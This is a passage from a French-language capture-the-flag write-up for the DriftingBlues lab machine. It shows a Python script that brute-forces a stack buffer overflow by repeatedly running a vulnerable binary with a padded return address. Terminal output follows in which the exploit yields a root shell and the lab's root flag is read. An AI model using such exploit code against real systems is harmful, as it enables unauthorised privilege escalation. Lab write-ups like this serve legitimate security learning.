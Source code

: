 ```python
import os 
import sys 

padding = int(sys.argv[1]) 

while True: 
        os.system("./input " + 'a'*padding + '\x21\x95\xa6\xbf'*44)
```

Avec un padding de 3 caractères (pour que l'adresse de retour s'aligne avec la pile) j'obtiens un shell après un moment :  

```plain
clapton@debian:~$ python brute.py 3
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
--- snip ---
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
Segmentation fault 
# id 
uid=0(root) gid=1000(clapton) groups=1000(clapton) 
# cd /root 
# ls 
root.txt 
# cat root.txt 

this is the final of driftingblues series. i hope you've learned something from them. 

you can always contact me at vault13_escape_service[at]outlook.com for your questions. (mail language: english/turkish) 

your root flag: 

04D4C1BEC659F1AA15B7AE731CEEDD65 

good luck. ( ͡° ͜ʖ ͡°)
```

Sympa

*Published January 21 2022 at 12:05*